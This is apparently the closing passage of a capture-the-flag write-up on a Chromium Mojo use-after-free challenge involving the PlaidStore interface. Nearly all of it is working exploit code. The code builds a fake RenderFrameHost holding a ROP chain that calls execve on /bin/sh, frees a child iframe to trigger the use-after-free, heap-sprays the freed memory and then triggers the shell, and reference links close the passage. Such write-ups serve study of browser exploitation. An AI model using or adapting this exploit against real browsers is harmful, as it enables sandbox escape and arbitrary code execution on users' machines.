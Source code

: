 ```html
                fake_RFH_8_byte[0] = BigInt(RFH_addr + 0x10n);
                fake_RFH_8_byte[1] = BigInt(0);
                fake_RFH_8_byte[2] = BigInt(0); //pop rbp; the beginning of vtable; <===rsp
                fake_RFH_8_byte[3] = BigInt(pop_rdi_ret); //ret
                fake_RFH_8_byte[4] = BigInt(RFH_addr + 0x10n + 0x160n + 0x8n);//the address of "/bin/sh"
                fake_RFH_8_byte[5] = BigInt(pop_rsi_ret)//clean the rsi
                fake_RFH_8_byte[6] = BigInt(0);
                fake_RFH_8_byte[7] = BigInt(pop_rdx_ret);//clean the rdx
                fake_RFH_8_byte[8] = BigInt(0);
                fake_RFH_8_byte[9] = BigInt(pop_rax_ret);//pass the number of syscall
                fake_RFH_8_byte[10] = BigInt(59);
                fake_RFH_8_byte[11] = BigInt(syscall);

                fake_RFH_8_byte[(0x160 + 0x10) / 8] = BigInt(xchg);//pivot the stack
                
                var fake_RFH_1_byte = new Uint8Array(fake_RFH);

                var cmd = "/bin/sh";

                for(var i = 0; i < cmd.length; i++){
                    fake_RFH_1_byte[0x160 + 0x10 + 0x8 + i] = cmd.charCodeAt(i);
                }

                //after getting the interface endpoint from the child frame
                //release the child iframe to trigger the UAF 
                DeleteRFH(iframe);

                //create a new mojo connection in parent to reapply that memory of the victim RFH 
                var pipe = Mojo.createMessagePipe();        
                var remote_side = new blink.mojom.PlaidStorePtr(pipe.handle0);
                Mojo.bindInterface(blink.mojom.PlaidStore.name, pipe.handle1, "context", true);
                
                console.log("[+] heap spray.")
                //heap spary
                for(var i = 0; i < 0x100; i++)
                {
                    remote_side.storeData("attack" + i, fake_RFH_1_byte);
                }

                //get shell
                console.log("[+] get shell!")
                child_mojo_ptr.getData("exp", 0x0);

            }).catch(message => {if (message == "child")console.log("[+] the work of child is finished.")})

        </script>
    </body>    
</html>
```



## reference 

https://microsoftedge.github.io/edgevr/posts/yet-another-uaf/

https://eternalsakura13.com/2020/09/20/mojo/

https://kiprey.github.io/2020/10/mojo/#5-%E8%B0%83%E8%AF%95%E4%B8%8E%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B

https://microsoftedge.github.io/edgevr/posts/yet-another-uaf/